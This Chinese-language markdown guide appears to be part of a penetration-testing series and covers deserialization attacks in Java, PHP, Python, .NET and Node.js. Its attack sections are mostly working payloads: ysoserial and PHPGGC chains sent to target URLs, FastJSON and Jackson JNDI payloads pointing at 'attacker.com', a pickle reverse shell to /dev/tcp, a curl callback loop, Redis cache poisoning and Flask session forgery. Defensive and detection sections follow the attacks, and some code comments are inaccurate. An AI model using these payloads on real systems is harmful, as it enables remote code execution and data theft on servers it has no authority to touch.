

# 🔄 反序列化注入全技巧

> **OWASP Top 10 2021 — A08: Software and Data Integrity Failures**
> **反序列化漏洞**是指应用程序反序列化未受信任的数据，导致攻击者能够在服务器上执行任意代码或操纵应用逻辑。
> 关联：[命令注入全技巧](11-command-injection.md) | [模板注入SSTI全技巧](17-ssti.md) | [XXE注入全技巧](16-xxe.md) | [SQL注入全技巧](09-sql-injection.md) | [软件和数据完整性失效（A08）全技巧](27-a08-integrity-failures.md)

---

## 📖 一、反序列化基础原理

### 1.1 什么是序列化与反序列化？

```mermaid
graph LR
    A[对象(Object)] -->|序列化| B[字节流/字符串]
    B -->|反序列化| A
```

- **序列化**：将内存中的对象转换为可存储或传输的格式（字节流、JSON、字符串）
- **反序列化**：将字节流/字符串恢复为内存中的对象

**当反序列化未受信任的数据时，攻击者可以：**
1. 构造恶意对象，在反序列化过程中触发**任意代码执行**
2. 修改对象属性值，实现**权限提升**或**逻辑绕过**

### 1.2 各语言序列化格式

| 语言 | 序列化格式 | 特征 | 魔术头 |
|:---|:---|:---|:---|
| **Java** | 二进制（ObjectOutputStream） | `0xAC ED 00 05` | `rO0AB`（Base64） |
| **Java** | JSON（Jackson/FastJSON） | `{"@type":"...","val":"..."}` | `{"@type":` |
| **PHP** | 可读字符串 | `O:4:"User":1:{s:4:"name";s:5:"admin";}` | `O:` 或 `a:` |
| **Python** | Pickle 二进制 | 协议版本标识 | `0x80 0x04` |
| **Python** | PyYAML | YAML 格式 | `!!python/object:` |
| **.NET** | BinaryFormatter | `0x00 01 00 00 00` | `AAEAAAD/////` |
| **Ruby** | Marshal | 版本号 + 类型标识 | `0x04 0x08` |
| **Node.js** | node-serialize | JSON 格式 | `{"rce":"_$$ND_FUNC$$_..."}` |

### 1.3 哪些地方会出现反序列化？

| 场景 | 常见位置 |
|:---|:---|
| 🍪 **Session/Cookie** | `Cookie: session=O:4:"User":...`（PHP） |
| 🔑 **Token** | JWT、认证令牌、remember-me Cookie |
| 📦 **缓存** | Redis/Memcached 中存储的序列化对象 |
| 🗄️ **数据库** | 数据库中存储的序列化字段 |
| 📤 **请求体** | API 接口接收序列化数据 |
| 📨 **消息队列** | RabbitMQ/Kafka 中的消息 |
| 📎 **文件上传** | 上传序列化对象文件 |
| 🌐 **RMI** | Java RMI 通信 |
| 🔗 **XML/JSON** | Jackson、FastJSON、XStream 反序列化 |

---

## 🏷️ 二、Java 反序列化

### 2.1 Java 序列化基础

```java
// Java 原生序列化
import java.io.*;

// 序列化对象
User user = new User("admin", "123456");
FileOutputStream fos = new FileOutputStream("user.ser");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(user);
oos.close();

// 序列化后的字节（十六进制）：
// AC ED 00 05 73 72 00...
// Base64 编码后以 rO0AB 开头
```

**Java 反序列化关键机制：**

```java
// 反序列化时自动调用的方法（按优先级）
// 1. readObject() - 自定义反序列化逻辑
// 2. readResolve() - 替换反序列化出的对象
// 3. readObjectNoData() - 无数据时的处理
// 4. validateObject() - 验证对象

// 危险代码示例
ObjectInputStream ois = new ObjectInputStream(inputStream);
Object obj = ois.readObject();  // ❌ 直接反序列化未受信任的数据
```

### 2.2 ysoserial - Java 反序列化利用工具

```bash
# ysoserial 是 Java 反序列化利用的瑞士军刀
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn clean package -DskipTests

# 列出所有可用链
java -jar ysoserial.jar

# 生成 Payload（执行命令）
java -jar ysoserial.jar CommonsCollections1 'id' > payload.bin

# Base64 输出
java -jar ysoserial.jar CommonsCollections1 'id' | base64

# URLDNS - 用于检测反序列化是否存在（无RCE，只触发DNS查询）
java -jar ysoserial.jar URLDNS "http://xxxx.burpcollaborator.net" > payload.bin
```

### 2.3 常用利用链

| 链名 | 依赖库 | 版本范围 | 说明 |
|:---|:---|:---|:---|
| **CommonsCollections1** | commons-collections 3.1 | 3.1 | 最经典，JDK 8u71 以下 |
| **CommonsCollections2** | commons-collections4 | 4.0 | 使用 javassist |
| **CommonsCollections3** | commons-collections 3.1 | 3.1 | CC1 变种 |
| **CommonsCollections4** | commons-collections4 | 4.0 | CC2 变种 |
| **CommonsCollections5** | commons-collections 3.1 | 3.1 | 适用于 JDK 8u76+ |
| **CommonsCollections6** | commons-collections 3.1 | 3.1 | 适用范围广 |
| **CommonsCollections7** | commons-collections 3.1 | 3.1 | 另一个变种 |
| **Jdk7u21** | 无（JDK 内置） | JDK 7u21 以下 | 无需第三方库 |
| **Jdk8u20** | 无（JDK 内置） | JDK 8u20 以下 | 更广泛的 JDK 版本 |
| **Spring1** | spring-core | 4.x | Spring 框架 |
| **Spring2** | spring-core | 4.x | Spring 另一种链 |
| **C3P0** | c3p0 | 0.9.5 | JNDI 注入 |
| **JBoss** | JBoss 内部 | 各种版本 | JBoss 特定 |
| **JSON1** | json-lib | 2.4 | JSON 库反序列化 |
| **Hibernate1** | hibernate | 5.x | Hibernate ORM |
| **Wicket1** | Apache Wicket | 8.x | Wicket 框架 |

**检测哪些链可用：**

```bash
# 方法1：根据目标使用的库判断
# 查看 classpath（从错误信息、泄露的路径）

# 方法2：URLDNS 检测反序列化是否存在
java -jar ysoserial.jar URLDNS "http://your-dnslog-domain" | base64

# 方法3：逐个尝试不同链
for chain in CommonsCollections1 CommonsCollections2 CommonsCollections5 CommonsCollections6 Jdk7u21 Spring1; do
    java -jar ysoserial.jar "$chain" "curl http://your-server/$chain" | base64
done
```

### 2.4 实际利用步骤

```python
# Python 脚本发送 Payload
import requests
import base64

# 生成 payload（假设已经用 ysoserial 生成好）
with open('payload.bin', 'rb') as f:
    payload_b64 = base64.b64encode(f.read()).decode()

# 发送到目标
# 场景1：Cookie 中的反序列化
cookies = {'session': payload_b64}
r = requests.get('https://target.com/dashboard', cookies=cookies)

# 场景2：POST 请求体
headers = {'Content-Type': 'application/x-java-serialized-object'}
r = requests.post('https://target.com/api/deserialize', 
                  data=base64.b64decode(payload_b64),
                  headers=headers)

# 场景3：URL 参数
r = requests.get(f'https://target.com/data?obj={payload_b64}')
```

### 2.5 FastJSON 反序列化

```json
// FastJSON 反序列化漏洞（AutoType）

// 检测 FastJSON
// 发送：
{"@type":"java.lang.Runtime"}

// 如果返回异常信息中包含 com.alibaba.fastjson → 使用 FastJSON

// JNDI 注入 Payload
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://attacker.com:1389/Exploit",
    "autoCommit": true
}

// 绕过 AutoType 限制
{
    "@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "ldap://attacker.com:1389/Exploit",
    "autoCommit": true
}

// 使用 JSONSchema 绕过
// FastJSON <= 1.2.68 的绕过方式
```

### 2.6 Jackson 反序列化

```json
// Jackson 反序列化漏洞

// 检测
{"id": 1}

// 如果开启了 enableDefaultTyping()，可执行 JNDI 注入
["com.sun.rowset.JdbcRowSetImpl", {
    "dataSourceName": "ldap://attacker.com:1389/Exploit",
    "autoCommit": true
}]

// 或使用 Spring 相关的 gadget
["org.springframework.context.support.ClassPathXmlApplicationContext", 
 "http://attacker.com/evil.xml"]
```

---

## 🏷️ 三、PHP 反序列化

### 3.1 PHP 序列化基础

```php
<?php
// PHP 序列化格式
class User {
    public $username = 'admin';
    public $isAdmin = false;
    public $cmd = '';
    
    public function __destruct() {
        if ($this->isAdmin) {
            system($this->cmd);
        }
    }
}

$user = new User();
echo serialize($user);
// O:4:"User":3:{s:8:"username";s:5:"admin";s:7:"isAdmin";b:0;s:3:"cmd";s:0:"";}
?>
```

**PHP 序列化格式速查：**

| 类型 | 格式 | 示例 |
|:---|:---|:---|
| 字符串 | `s:长度:"值"` | `s:5:"admin"` |
| 整数 | `i:值` | `i:123` |
| 布尔 | `b:值` | `b:1`（true）, `b:0`（false） |
| NULL | `N;` | `N;` |
| 数组 | `a:数量:{键值对}` | `a:1:{s:3:"key";s:5:"value";}` |
| 对象 | `O:类名长度:"类名":属性数:{属性}` | `O:4:"User":1:{...}` |
| 对象引用 | `r:索引;` | `r:1;` |

### 3.2 PHP 魔术方法

```php
<?php
// 反序列化时自动触发的魔术方法（按触发时机排序）

// 反序列化过程中
__wakeup()     // 反序列化后立即调用
__unserialize() // PHP 7.4+，替代 __wakeup

// 对象销毁时
__destruct()   // 对象被销毁时调用

// 属性访问
__toString()   // 对象被当作字符串时
__call()       // 调用不可访问的方法时
__get()        // 访问不可访问的属性时
__set()        // 设置不可访问的属性时

// 其他
__sleep()      // 序列化时调用
__serialize()  // PHP 7.4+，替代 __sleep
?>
```

**常见利用链示例：**

```php
<?php
// 1. __destruct() -> system()
class ShellExec {
    public $cmd;
    public function __destruct() {
        system($this->cmd);
    }
}
echo serialize(new ShellExec());
// O:9:"ShellExec":1:{s:3:"cmd";N;}

// 2. __toString() 链
class A {
    public $obj;
    public function __toString() {
        return $this->obj->getFlag();
    }
}
class B {
    public $cmd;
    public function getFlag() {
        system($this->cmd);
    }
}

$a = new A();
$a->obj = new B();
$a->obj->cmd = 'id';
echo serialize($a);
?>
```

### 3.3 __wakeup() 绕过（CVE-2016-7124）

```php
<?php
// PHP < 7.4 的 __wakeup 绕过
// 当序列化字符串中的属性数量大于实际属性数量时，__wakeup() 不会执行

// 原始 payload
// O:4:"User":3:{s:8:"username";s:5:"admin";s:7:"isAdmin";b:1;s:3:"cmd";s:2:"id";}

// 绕过 wakeup（将属性数改为大于实际值）
// O:4:"User":4:{s:8:"username";s:5:"admin";s:7:"isAdmin";b:1;s:3:"cmd";s:2:"id";}
// ↑ 属性数从 3 改为 4，__wakeup() 被跳过！
?>
```

### 3.4 原生类利用

```php
<?php
// PHP 内置类的反序列化利用

// 1. GlobIterator - 目录遍历
$payload = 'C:12:"GlobIterator":12:{s:4:"/etc/*";}';

// 2. SplFileObject - 文件读取
$payload = 'O:12:"SplFileObject":2:{s:4:"path";s:13:"/etc/passwd";s:4:"mode";s:1:"r";}';

// 3. SimpleXMLElement - XXE
$payload = 'O:16:"SimpleXMLElement":1:{s:3:"xml";s:50:"<?xml version="1.0"?><!DOCTYPE foo[<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>";}';

// 4. Exception - 文件读取（利用 error 信息）
$payload = 'O:9:"Exception":1:{s:10:"exception";s:13:"/etc/passwd";}';
?>
```

### 3.5 PHPGGC - PHP 反序列化利用工具

```bash
# PHPGGC 是 PHP 版的 ysoserial
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# 列出所有链
./phpggc -l

# 生成 Payload
./phpggc Laravel/RCE1 system id
# → O:47:"Illuminate\Broadcasting\PendingBroadcast":2:{...}

./phpggc ThinkPHP/RCE1 system id
./phpggc SwiftMailer/FW1 system id
./phpggc Monolog/RCE1 system id
./phpggc CodeIgniter/RCE1 system id
./phpggc ZendFramework/RCE1 system id
./phpggc Symfony/RCE1 system id

# 生成并 URL 编码
./phpggc Laravel/RCE1 system id --url

# 生成并 Base64 编码
./phpggc Laravel/RCE1 system 'cat /flag' --b64
```

### 3.6 PHAR 反序列化

```php
<?php
// PHP 的 phar:// 协议在读取 PHAR 文件时会自动反序列化其中的 metadata

// 即使使用 file_get_contents、is_dir、file_exists 等函数也会触发
$file = 'phar://test.phar/test.txt';
file_exists($file);  // ❌ 触发反序列化！

// 创建恶意 PHAR 文件
class ShellExec {
    public $cmd = 'id';
}

$phar = new Phar('exploit.phar');
$phar->startBuffering();
$phar->setMetadata(new ShellExec());  // 序列化对象存入 metadata
$phar->addFromString('test.txt', 'test');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();

// 触发条件（需要上传功能 + phar:// 读取）
// file_exists('phar://uploads/exploit.phar/test.txt');
// is_dir('phar://uploads/exploit.phar/');
?>
```

---

## 🏷️ 四、Python Pickle 反序列化

### 4.1 Pickle 基础

```python
import pickle

# 序列化
data = {'user': 'admin', 'role': 'user'}
pickled = pickle.dumps(data)
print(pickled)  # b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x04user\x94\x8c\x05admin\x94\x8c\x04role\x94\x8c\x04user\x94u.'

# 反序列化（危险！）
unpickled = pickle.loads(pickled)  # 如果是恶意数据，会执行任意代码
```

### 4.2 Pickle RCE 利用

```python
import pickle
import os

# RCE Payload 1：使用 __reduce__
class Exploit(object):
    def __reduce__(self):
        # __reduce__ 返回 (callable, args)
        # 反序列化时会调用 callable(*args)
        return (os.system, ('id',))

payload = pickle.dumps(Exploit())
print(payload)

# 发送 payload
import base64
print(base64.b64encode(payload).decode())
# 服务端如果调用 pickle.loads()，会执行 os.system('id')

# RCE Payload 2：执行更复杂的命令
class Exploit2(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['cat', '/etc/passwd'],))

# RCE Payload 3：反弹 Shell
class ReverseShell(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call, ([
            'bash', '-c', 
            'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'
        ],))
```

### 4.3 Pickle 操作码直接构造

```python
import pickle
import pickletools

# 使用 pickletools 构造更精细的 payload
payload = b"\x80\x04\x95\x2a\x00\x00\x00\x00\x00\x00\x00\x8c\x08posix\x8c\x06system\x93\x8c\x02id\x85R\x94."

# 反汇编查看操作码
pickletools.dis(payload)

# 手动构造操作码
# \x80\x04  - PROTO 4 (协议版本)
# \x95...   - FRAME
# \x8c\x08posix - SHORT_BINUNICODE 'os' (模块名)
# \x8c\x06system - SHORT_BINUNICODE 'system' (函数名)
# \x93      - TUPLE2
# \x8c\x02id - SHORT_BINUNICODE 'id' (参数)
# \x85      - TUPLE1
# R         - REDUCE（调用函数）
# .         - STOP
```

### 4.4 PyYAML 反序列化

```yaml
# YAML 反序列化也可以执行代码

# RCE Payload
!!python/object/apply:os.system ["id"]

# 或者使用更复杂的 payload
!!python/object/apply:subprocess.check_output [["cat", "/etc/passwd"]]

# Python 代码生成
!!python/object/new:str
args: []
state: !!python/tuple
- "print('RCE!')"
- !!python/object/new:staticmethod
  args: [0]
  state:
    !!python/name:exec
```

---

## 🏷️ 五、.NET 反序列化

### 5.1 .NET 反序列化基础

```csharp
// .NET 中的危险反序列化方法
// BinaryFormatter
// SoapFormatter
// LosFormatter
// NetDataContractSerializer
// JavaScriptSerializer
// ObjectStateFormatter

// 危险代码
BinaryFormatter formatter = new BinaryFormatter();
object obj = formatter.Deserialize(stream);  // ❌ 直接反序列化
```

### 5.2 ysoserial.net

```bash
# ysoserial.net 是 .NET 版的反序列化工具
git clone https://github.com/pwntester/ysoserial.net.git

# 生成 Payload
ysoserial.exe -f BinaryFormatter -g PSObject -o raw -c "calc.exe"

# 常用 Gadget
# PSObject
# WindowsIdentity
# ActivitySurrogateSelector
# TypeConfuseDelegate
# ObjectDataProvider
```

---

## 🚀 六、进阶利用技巧

### 6.1 JNDI 注入（Java）

```java
// JNDI 注入是 Java 反序列化的核心利用方式
// 利用 JNDI（Java Naming and Directory Interface）加载远程对象

// 1. 攻击者启动恶意 LDAP 服务器
// java -jar JNDIExploit-1.4-SNAPSHOT.jar -i attacker.com -p 8888

// 2. 在反序列化 payload 中指定 LDAP 地址
// "ldap://attacker.com:1389/Exploit"

// 3. 目标触发反序列化时，JNDI 从攻击者的 LDAP 服务器加载恶意类
// 4. 恶意类在目标服务器上执行

// 防御 bypass：如果目标 JDK 版本较高（>= 8u191）
// 已默认禁用 JNDI 远程类加载
// 但仍然可以通过 tomcat/el 等 gadget 绕过
```

### 6.2 JDK 版本绕过

```bash
# JDK 版本与 JNDI 注入
# < 8u121：默认允许远程加载
# 8u121 - 8u190：需要设置 com.sun.jndi.ldap.object.trustURLCodebase=true
# >= 8u191：默认禁止远程加载

# JDK 8u191+ 绕过方式
# 1. 使用本地 Gadget（如 Tomcat ELProcessor）
# 2. 使用 BeanFactory 等
# 3. 使用 tomcat-dbcp 连接池
```

### 6.3 Redis + 反序列化组合

```bash
# Redis 缓存中可能存储 Java 序列化对象
# 如果 Redis 未授权访问，可修改缓存内容触发反序列化

# 1. 构造恶意序列化 payload
java -jar ysoserial.jar CommonsCollections6 'id' > payload.bin

# 2. 写入 Redis
redis-cli -h target.com -p 6379
> SET session:user1 "\xac\xed\x00\x05..."  # 覆盖缓存
> GET session:user1  # 触发反序列化

# 3. 或者利用 Redis 主从复制
```

### 6.4 Flask session 伪造（Python）

```python
# Flask 使用基于 pickle 的序列化存储 session 数据
# 如果知道 secret_key，可伪造恶意 session

from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import pickle

# 如果有 secret_key
secret_key = 'your-secret-key'

# 生成器
serializer = URLSafeTimedSerializer(
    secret_key,
    salt='cookie-session',
    signer_kwargs={'key_derivation': 'hmac'},
    serializer=pickle
)

# 伪造恶意 session（如果 Flask 版本使用 pickle）
# 构造一个 pickle RCE payload
class Exploit(object):
    def __reduce__(self):
        import os
        return (os.system, ('id',))

fake_session = {'user': Exploit()}
forged_cookie = serializer.dumps(fake_session)

# 如果无法直接 pickle，也可以修改 session 内容
fake_session = {'user': 'admin', 'role': 'admin'}
forged_cookie = serializer.dumps(fake_session)
```

### 6.5 Node.js node-serialize

```javascript
// Node.js node-serialize / serialize-to-js 反序列化

// 安装：npm install node-serialize

// 漏洞代码
const serialize = require('node-serialize');
const data = serialize.unserialize(req.cookies.session);  // ❌

// RCE Payload
// {"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('id', function(err, stdout) { console.log(stdout); }); }()"}
```

---

## 🛡️ 七、防御方案

### 7.1 Java 安全反序列化

```java
// ✅ 方案1：使用白名单验证
import org.apache.commons.io.serialization.ValidatingObjectInputStream;

ValidatingObjectInputStream ois = new ValidatingObjectInputStream(input);
ois.accept(User.class, Role.class);  // 只允许这些类
Object obj = ois.readObject();

// ✅ 方案2：使用安全的替代品
// 使用 JSON 替代 Java 序列化
// 使用 Protocol Buffers、Avro、MessagePack 等
```

### 7.2 PHP 安全反序列化

```php
<?php
// ✅ 方案1：类型校验
$data = unserialize($input);
if ($data instanceof User) {  // 先检查类型
    // 处理
}

// ✅ 方案2：使用 JSON 替代
$data = json_decode($input, true);  // 安全
$user = User::fromArray($data);

// ✅ 方案3：PHP 8.0+ 使用 safe_unserialize (自定义)
function safe_unserialize($data, $allowed_classes = []) {
    return unserialize($data, ['allowed_classes' => $allowed_classes]);
}
// 传空数组不允许任何类被反序列化
$data = safe_unserialize($input, []);  // 只允许基本类型

// 或只允许特定类
$data = safe_unserialize($input, ['User', 'Role']);
?>
```

### 7.3 Python 安全反序列化

```python
# ✅ 方案1：使用 JSON 替代 Pickle
import json
data = json.loads(user_input)  # 安全

# ✅ 方案2：Pickle 白名单（使用 pickletools 检查）
import pickle
import pickletools
import io

def safe_pickle_loads(data):
    """白名单方式反序列化 - 只允许安全操作码"""
    allowed_ops = {
        'STOP', 'POP', 'POP_MARK', 'DUP', 'FLOAT', 'INT', 'BININT',
        'BINGET', 'UNICODE', 'SHORT_BINUNICODE', 'BINUNICODE',
        'NONE', 'TRUE', 'FALSE', 'EMPTY_LIST', 'APPEND',
        'EMPTY_DICT', 'SETITEMS', 'TUPLE', 'TUPLE1', 'TUPLE2',
        'TUPLE3', 'LIST', 'DICT', 'MARK',
    }
    
    for opcode, arg, pos in pickletools.genops(io.BytesIO(data)):
        if opcode.name not in allowed_ops:
            raise ValueError(f"禁止的操作码: {opcode.name} at position {pos}")
    
    return pickle.loads(data)

# ✅ 方案3：使用 PyYAML 的安全加载
import yaml
data = yaml.safe_load(user_input)  # 安全，不执行任意代码
# 不要使用 yaml.load()，除非你非常确定数据来源
```

### 7.4 通用防御原则

| 措施 | 说明 |
|:---|:---|
| ✅ **使用安全替代品** | 使用 JSON/Protobuf 替代原生序列化 |
| ✅ **白名单类校验** | 反序列化时只允许特定的类 |
| ✅ **HMAC 签名验证** | 对序列化数据添加签名，防止篡改 |
| ✅ **输入完整性校验** | 验证数据来源和完整性 |
| ✅ **最小权限** | 应用以最小权限运行 |
| ✅ **避免不必要的反序列化** | 只在必要时反序列化 |
| ✅ **升级依赖库** | 更新 FastJSON、Jackson 等库到最新版本 |

---

## 🎯 八、检测流程速查

### 8.1 手动检测步骤



### 8.2 测试 Checklist

- [ ] 检查 Cookie/Session 中是否有序列化数据特征
- [ ] 检查 HTTP 请求体中的序列化数据
- [ ] 检查 Redis/Memcached 中的缓存数据
- [ ] 检查文件上传中的序列化对象
- [ ] 检查 API 接口的 XML/JSON 反序列化
- [ ] 检查 Java RMI 端口
- [ ] 检查 JMX 端口
- [ ] 测试 URLDNS 检测 Java 反序列化
- [ ] 测试 PHPGGC 各框架链
- [ ] 测试 Python Pickle 反序列化
- [ ] 测试 FastJSON/Jackson 的 `@type` 特性

### 8.3 检测特征速查

| 语言 | 特征 | 检测方法 |
|:---|:---|:---|
| Java 原生 | `rO0AB`（Base64）或 `\\xac\\xed\\x00\\x05` | 搜索或正则匹配 |
| Java JSON | `{"@type":"..."}` | 搜索 `@type` 字段 |
| PHP | `O:\\d+:\\".+\\":` | 正则 `O:[0-9]+:"` |
| Python Pickle | `\\x80\\x04` 或 `\\x80\\x03` | 头部特征 |
| Python YAML | `!!python/` | 搜索 `!!python/` |
| .NET | `AAEAAAD/////` | Base64 特征 |
| Ruby | `\\x04\\x08` | 头部特征 |

### 8.4 推荐工具

| 工具 | 用途 |
|:---|:---|
| **ysoserial** | Java 反序列化 Payload 生成 |
| **PHPGGC** | PHP 反序列化 Payload 生成 |
| **ysoserial.net** | .NET 反序列化 Payload 生成 |
| **JNDIExploit** | JNDI 注入利用 |
| **marshalsec** | RMI/LDAP 服务搭建 |
| **pickora** | Python Pickle 反序列化利用 |

---

## 🔗 关联文件

| 文件 | 关联说明 |
|:---|:---|
| [软件和数据完整性失效（A08）全技巧](27-a08-integrity-failures.md) | OWASP A08 分类总览，包含反序列化 |
| [命令注入全技巧](11-command-injection.md) | 反序列化 RCE 后常执行的攻击 |
| [模板注入SSTI全技巧](17-ssti.md) | Java 模板引擎与反序列化结合利用 |
| [XXE注入全技巧](16-xxe.md) | XML 反序列化相关 |
| [NoSQL注入全技巧](10-nosql-injection.md) | Redis + 反序列化组合攻击 |
| [身份认证失效（A07）全技巧](26-a07-auth-failures.md) | Session 反序列化绕过认证 |

> **💡 核心原则**：永远不要反序列化未受信任的数据！如果必须反序列化，使用白名单类校验、添加 HMAC 签名验证，或优先使用 JSON 等安全格式！
